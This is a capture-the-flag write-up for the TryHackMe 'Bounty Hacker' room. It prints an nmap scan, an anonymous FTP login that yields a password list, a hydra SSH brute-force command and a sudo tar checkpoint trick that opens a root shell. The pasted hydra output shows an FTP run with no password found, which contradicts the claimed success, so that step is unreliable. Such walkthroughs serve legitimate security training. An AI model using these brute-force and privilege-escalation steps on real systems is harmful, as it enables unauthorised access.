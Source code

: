 # Bounty Hunter
tryhackme - bounty hacker [easy] https://tryhackme.com/room/cowboyhacker

![9ad38a2cc31d6ae0030c888aca7fe646](https://user-images.githubusercontent.com/80511498/147251011-a47f9804-889c-483b-8e56-1bb0964e11e0.jpeg)
tryhackme 

## NMAP SCAN
*here is a nmap scan of the machine*
nmap command :- nmap -A http:// <IP_Address>
___
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.33.72
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Linux 3.7 (90%), Linux 5.0 (90%), Linux 5.1 (90%), Ubiquiti AirOS 5.5.9 (90%), Linux 5.0 - 5.4 (89%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   22.96 ms  10.17.0.1
2   ... 4
5   145.37 ms 10.10.0.198

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.70 seconds
___
 
*we can see in the nmap result that ftp and ssh is open* 
*firstly im going to try ftp into the machine*

## FTP results
*The FTP is accessible try login with anonymous.
command :- ftp <IP_Address> 
when asked for user enter anonymous*

ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp>

*get the files locks.txt and task.txt they are needed in further enumeration*
___
*task.txt*
in task.txt we found a user (lin)
___
$ cat task.txt

1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
___
locks.txt
this look's like a wordlist so we will use it for bruteforce

*$ cat locks.txt* 
- rEddrAGON
- ReDdr4g0nSynd!cat3
- Dr@gOn$yn9icat3
- R3DDr46ONSYndIC@Te
- ReddRA60N
- R3dDrag0nSynd1c4te
- dRa6oN5YNDiCATE
- ReDDR4g0n5ynDIc4te
- R3Dr4gOn2044
- RedDr4gonSynd1cat3
- R3dDRaG0Nsynd1c@T3
- Synd1c4teDr@g0n
- reddRAg0N
- REddRaG0N5yNdIc47e
- Dra6oN$yndIC@t3
- 4L1mi6H71StHeB357
- rEDdragOn$ynd1c473
- DrAgoN5ynD1cATE
- ReDdrag0n$ynd1cate
- Dr@gOn$yND1C4Te
- RedDr@gonSyn9ic47e
- REd$yNdIc47e
- dr@goN5YNd1c@73
- rEDdrAGOnSyNDiCat3
- r3ddr@g0N
- ReDSynd1ca7e

---

## HYDRA
**trying to brute force ssh using hydra**
now we have the user name and we will use the wordlist locks.txt to brute force
command :- hydra -l lin -P locks.txt  <IP_Address> ssh

Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-22 21:45:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ftp://10.10.0.198:21/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-22 21:45:39

we found the password and login via ssh
we see the user flag 
we just cat the user flag 
user.txt - THM{userflag}
___

### Priv Sec
now we need to escalate our privilege
we can exploit  lin's sudo privilege
command :- sudo -l
___
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
___

*i searched more on tar sudo privilege escaltion and found this*


just run the following command 
command :- sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

![68747470733a2f2f692e696d6775722e636f6d2f41397a70647a6e2e706e67](https://user-images.githubusercontent.com/80511498/147251386-5d178b8c-1a21-4590-90d1-fde988fe1ecc.png)


now we have a root access you can see by typing :- sudo -l
![68747470733a2f2f692e696d6775722e636f6d2f633845557361732e706e67](https://user-images.githubusercontent.com/80511498/147251202-77aa7dce-db3a-4829-a758-fba7623e3173.png)

cd into /root to get to the root flag
___

